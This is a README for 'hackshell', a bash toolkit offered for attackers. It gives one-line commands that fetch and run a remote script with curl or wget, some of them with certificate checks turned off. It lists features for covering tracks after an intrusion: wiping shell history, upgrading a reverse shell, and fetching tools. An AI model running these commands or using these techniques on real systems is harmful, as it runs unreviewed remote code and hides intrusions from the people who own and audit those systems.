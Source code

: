 # hackshell
Make BASH stealthy and hacker friendly with lots of bash functions

Usage:
```shell
 source <(curl -SsfL https://thc.org/hs)
```

```shell
 source <(curl -SsfL https://github.com/hackerschoice/hackshell/raw/main/hackshell.sh)
```

Ignore SSL / Certificate warnings:
```shell
 source <(curl -kSsfL https://github.com/hackerschoice/hackshell/raw/main/hackshell.sh)
```

```shell
 source <(wget --no-check-certificate -q -O- https://github.com/hackerschoice/hackshell/raw/main/hackshell.sh)
```

Some features:
*  unsets HISTFILE, SSH_CONNECT, wget/redis/mysql/less-HISTORY, ...
*  Upgrates to PTY shell (if reverse shell)
*  Creates hacker-friendly shortcuts, bash-functions and aliases
*  Static binary download by simple `bin <command>` (e.g. `bin nmap`)
*  Does not write ANY data to the harddrive
*  Leaves no trace
 
![hackshell](https://github.com/user-attachments/assets/fe4e9f4c-d0f6-4886-8f2f-ef7e3f86b406)

